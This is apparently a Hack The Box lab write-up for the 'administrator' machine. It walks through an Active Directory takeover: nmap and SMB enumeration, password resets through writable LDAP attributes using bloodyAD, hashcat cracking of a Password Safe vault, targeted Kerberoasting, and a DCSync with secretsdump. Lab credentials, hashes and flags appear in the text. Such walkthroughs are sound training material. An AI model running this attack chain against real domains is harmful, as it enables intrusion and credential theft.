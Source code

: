 ```yaml
---
layout: post
title: HTB - administrator
date: 2025-04-23 10:00 -0400
---
```


{{ 'administrator' | get_machine_avatar | raw }}

# nmap
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-04-23 09:13 -04
Nmap scan report for 10.10.11.42
Host is up (0.16s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-23 20:13:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
60893/tcp open  msrpc         Microsoft Windows RPC
60896/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
60907/tcp open  msrpc         Microsoft Windows RPC
60912/tcp open  msrpc         Microsoft Windows RPC
60915/tcp open  msrpc         Microsoft Windows RPC
60934/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s
| smb2-time: 
|   date: 2025-04-23T20:14:40
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.76 seconds
```

# user
We start with some creds:
- Username: Olivia
- Password: ichliebedich

Ftp open is interesting.

There is a ADMIN$ share that looks interesting but we can't read that.
```bash
» netexec smb $(cat ip.txt) -u Olivia -p 'ichliebedich' --shares
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich
SMB         10.10.11.42     445    DC               [*] Enumerated shares
SMB         10.10.11.42     445    DC               Share           Permissions     Remark
SMB         10.10.11.42     445    DC               -----           -----------     ------
SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.42     445    DC               C$                              Default share
SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share
```

Let's look at writable ldap attrs for Olivia
```bash
» bloodyAD -u Olivia -p ichliebedich --host administrator.htb get writable --detail
```

Looks like it has a lot of writes on `Michael Williams`. Let's take a better look with bloodhound.

We can use `olivia` to get to `michael` and `michael` to get to `benjamin`.
![esc chain](/assets/img/administrator1.png)

```bash
» bloodyAD -k --host dc.administrator.htb -d administrator.htb set password Michael 'asdf1234$Ba'
» bloodyAD -u Michael -p 'asdf1234$Ba' --host administrator.htb set password Benjamin 'asdf1234$Ba
```

Michael has winrm but there isn't much in there.

Ftp accepts benjamin creds and there is a Backup.safe3 in there.

We can crack it with `hashcat ./Backup.psafe3 ~/wordlists/rockyou.txt -m 5200 -a 0`
- ./Backup.psafe3:tekieromucho

Then we use pwsafe to access it.
![vault1](/assets/img/administrator7.png)
![vault2](/assets/img/administrator6.png)

- emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
- emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
- alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw

emily is the only of the three with winrm access so lets focus on that.
```bash
*Evil-WinRM* PS C:\Users\emily\Documents> type ..\Desktop\user.txt
cd368971f88837d54608046d3a0eddee
```

# root
From here emily can change ethan password and ethan can use DCSync to get domain controller.
![emily to ethan](/assets/img/administrator3.png)

Could not change ethan password and could not figure out why so we going with targetedKerberoast:

```bash
targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
# $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*...
```

- ethan:limpbizkit

Now just DCSync.

```bash
secretsdump.py administrator.htb/ethan:limpbizkit@dc.administrator.htb -just-dc-user Administrator
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
ccf442a948304068163d5f8b2f8898aa
```
